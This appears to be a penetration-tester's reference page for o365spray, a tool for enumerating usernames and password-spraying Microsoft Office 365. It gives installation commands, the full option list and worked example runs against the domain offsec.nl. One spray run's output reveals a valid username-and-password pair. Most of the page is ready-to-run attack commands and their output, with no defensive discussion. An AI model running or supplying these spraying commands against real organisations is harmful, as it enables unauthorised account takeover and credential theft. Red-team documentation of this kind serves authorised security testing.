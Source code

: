 ```yaml
---
title : "O365spray"
# pre : ' '
description : "o365spray | Microsoft O365 User Enumerator and Password Sprayer."
date : 2021-11-03T20:53:22+01:00
# hidden : true
# draft : true
weight : 0
tags : ['M365', 'Passwordspray']
---
```


## O365spray

o365spray a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments).

> WARNING: The oAuth2 module for user enumeration is performed by submitting a single authentication attempt per user. If the module is run in conjunction with password spraying in a single execution, o365spray will automatically reset the lockout timer prior to performing the password spray -- if enumeration is run alone, the user should be aware of how many and when each authentication attempt was made and manually reset the lockout timer before performing any password spraying.

## Installation

```plain
git clone https://github.com/0xZDH/o365spray
python3 -m pip install -r requirements.txt
```

## Usage

```plain
o365spray.py [-h] [-d DOMAIN] [--validate] [--enum] [--spray] [-u USERNAME] [-p PASSWORD] [-U USERFILE] [-P PASSFILE] [--paired PAIRED] [-c COUNT] [-l LOCKOUT] [--enum-module {office,onedrive,oauth2}]
                    [--spray-module {oauth2,activesync,autodiscover,reporting,adfs}] [--adfs-url ADFS_URL] [--sleep [-1, 0-120]] [--jitter [0-100]] [--rate RATE] [--safe SAFE] [--timeout TIMEOUT] [--proxy PROXY] [--output OUTPUT]
                    [-v] [--debug]
```

## Flags

```plain
o365spray | Microsoft O365 User Enumerator and Password Sprayer -- v2.0.4

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Target domain for validation, user enumeration, and/or password spraying.
  --validate            Run domain validation only.
  --enum                Run username enumeration.
  --spray               Run password spraying.
  -u USERNAME, --username USERNAME
                        Username(s) delimited using commas.
  -p PASSWORD, --password PASSWORD
                        Password(s) delimited using commas.
  -U USERFILE, --userfile USERFILE
                        File containing list of usernames.
  -P PASSFILE, --passfile PASSFILE
                        File containing list of passwords.
  --paired PAIRED       File containing list of credentials in username:password format.
  -c COUNT, --count COUNT
                        Number of password attempts to run per user before resetting the lockout account timer. Default: 1
  -l LOCKOUT, --lockout LOCKOUT
                        Lockout policy's reset time (in minutes). Default: 15 minutes
  --enum-module {office,onedrive,oauth2}
                        Specify which enumeration module to run. Default: office
  --spray-module {oauth2,activesync,autodiscover,reporting,adfs}
                        Specify which password spraying module to run. Default: oauth2
  --adfs-url ADFS_URL   AuthURL of the target domain's ADFS login page for password spraying.
  --sleep [-1, 0-120]   Throttle HTTP requests every `N` seconds. This can be randomized by passing the value `-1` (between 1 sec and 2 mins). Default: 0
  --jitter [0-100]      Jitter extends --sleep period by percentage given (0-100). Default: 0
  --rate RATE           Number of concurrent connections (attempts) during enumeration and spraying. Default: 10
  --safe SAFE           Terminate password spraying run if `N` locked accounts are observed. Default: 10
  --timeout TIMEOUT     HTTP request timeout in seconds. Default: 25
  --proxy PROXY         HTTP/S proxy to pass traffic through (e.g. http://127.0.0.1:8080).
  --output OUTPUT       Output directory for results and test case files. Default: current directory
  -v, --version         Print the tool version.
  --debug               Enable debug output.
```

## Examples

### Validate domain

```plain
$ python3 o365spray.py -d offsec.nl --validate

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2021-11-03 20:52:48

>----------------------------------------<

[2021-11-03 20:52:48,396] INFO : Running O365 validation for: offsec.nl
[2021-11-03 20:52:48,652] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
```

### Passwordspray over ActiveSync

```plain
$ python3 o365spray.py -d offsec.nl -u john.do --paired usercreds.txt --spray-module activesync --spray

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > spray          :  True
   > username       :  john.do
   > paired         :  usercreds.txt
   > count          :  1 passwords/spray
   > lockout        :  15.0 minutes
   > spray_module   :  activesync
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2021-11-03 21:00:26

>----------------------------------------<

[2021-11-03 21:00:26,533] INFO : Running O365 validation for: offsec.nl
[2021-11-03 21:00:26,736] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
[2021-11-03 21:00:26,736] INFO : 

[ ? ]   Switch to the ADFS module for password spraying [Y/n] n
[2021-11-03 21:00:30,062] INFO : Running password spray against 1 users.
[2021-11-03 21:00:30,063] INFO : Password spraying using paired usernames:passwords.
[2021-11-03 21:00:30,498] INFO : [VALID] john.do@offsec.nl:Welkom1234!
[2021-11-03 21:00:30,499] INFO : 

[ * ] Writing valid credentials to: '/o365spray/spray/spray_valid_credentials.2111032100.txt'
[ * ] All sprayed credentials can be found at: '/o365spray/spray/spray_tested_credentials.2111032100.txt'

[2021-11-03 21:00:30,499] INFO : Valid Credentials: 1
```

## URL List

* [Github.com - o365spray](https://github.com/0xZDH/o365spray)
